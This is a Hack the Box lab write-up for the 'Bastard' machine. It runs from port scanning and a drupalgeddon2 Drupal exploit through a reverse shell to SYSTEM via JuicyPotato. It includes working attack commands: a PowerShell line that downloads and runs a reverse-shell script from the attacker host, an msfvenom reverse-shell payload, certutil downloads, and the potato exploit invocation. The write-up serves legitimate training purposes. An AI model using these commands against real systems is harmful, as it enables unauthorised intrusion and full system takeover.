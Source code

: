 ```yaml
---
title: Hack the Box - Bastard
date: 2022-08-16 22:17:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Bastard](/assets/HackTheBox/Bastard/Bastard.png)

# Bastard Overview

Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.9|Bastard|Windows|

## Path to Exploitation

Compromising this machne requires us to exploit a vulnerable version of a Drupal server that grants us a shell on the machine. Once we get our shell we enumerate our user and machine information and find that we have the seImpersonatePrivilege enabled. We can leverage this privilege to escalate to SYSTEM.

# Bastard Enumeration

## Full Port Scan

```bash
nmap 10.10.10.9 -p- -oA Bastard/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|80|http|
|135|msrpc|
|49154|unknown|

## Service Scan

```bash
nmap 10.10.10.9 -p 80,135,49154 -sC -sV -oA Bastard/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|IIS httpd 7.5|
|135|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|

# Website

![Drupal Site](/assets/HackTheBox/Bastard/drupal-site.png "Drupal Site")

## DrupeScan

```shell
$ ./droopescan scan drupal -u http://10.10.10.9/
```
![DroopeScan](/assets/HackTheBox/Bastard/droopescan.png "DroopeScan Results")

We see the Drupal version is 7.54 so we can use the [drupalgeddon2](https://github.com/lorddemon/drupalgeddon2) exploit. We can test the exploit to see if we can get command execution

```shell
$ ./drupalgeddon2.py -h http://10.10.10.9 -c 'whoami'
nt authority\iusr
```

Use the Invoke-PowerShellTcp.ps1 script and add the following line to the bottom of the file:

```shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

Setup a listener and execute the following command:

```shell
$ ./drupalgeddon2.py -h http://10.10.10.9 -c "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"
```

We check on our listener and we see we have caught a reverse shell as the iuser account

![Intial Foothold](/assets/HackTheBox/Bastard/initial-foothold.png "Reverse Shell")

# Privilege Escalation

## Local Enumeration

### System Enumeration

```shell
PS:\> systeminfo
```
![System Info](/assets/HackTheBox/Bastard/sys-info.png "System Info")

### User Enumeration

```shell
PS:\> whoami /priv
```

![User Privileges](/assets/HackTheBox/Bastard/user-privs.png "User Privileges")

We see based on our privileges and the machine operating system that we may be able to leverage the juicy potato exploit

## Getting SYSTEM

Generate the reverse shell payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe 
````

Upload the juicy potato script and the reverse shell payload to the machine

```shell
PS:\> certutil -urlcache -f http://10.10.14.10/juicypotato.exe juicy.exe
PS:\> certutil -urlcache -f http://10.10.14.10/evil.exe evil.exe
```

Setup a listener and execute the script (Use the [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) script to identify the CLSID):

```shell
PS:\> .\juicy.exe -l 1337 -p "C:\temp\evil.exe" -t * -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

Checking back on the listener we see we have a shell as the SYSTEM account.

![Getting SYSTEM](/assets/HackTheBox/Bastard/priv-esc.png "Getting SYSTEM")

